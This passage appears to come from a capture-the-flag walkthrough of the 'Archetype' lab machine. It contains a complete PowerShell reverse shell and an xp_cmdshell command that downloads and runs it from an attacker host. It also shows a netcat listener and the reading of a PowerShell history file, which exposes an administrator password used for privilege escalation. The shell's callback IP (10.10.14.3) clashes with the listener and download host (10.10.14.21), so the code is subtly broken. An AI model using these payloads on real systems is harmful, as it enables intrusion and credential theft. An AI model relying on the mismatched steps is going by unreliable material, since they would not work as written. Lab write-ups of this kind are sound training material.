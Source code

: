 The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

4. Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

5. Stand up a mini webserver in order to host the file. We can use Python.

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

6. Create a netcat listener

```
# nc -nvlp 443                               
listening on [any] 443 ...

```

7. We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.21/shell.ps1\");"
```

### Privilege Escalation

8. Check the netcat listener

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```
# nc -nvlp 443                               
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.27] 49842

# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

This reveals that the backups drive has been mapped using the local administrator credentials.  **user:administrator MEGACORP_4dm1n!!**

9. We can use Impacket's psexec.py to gain a privileged shell.
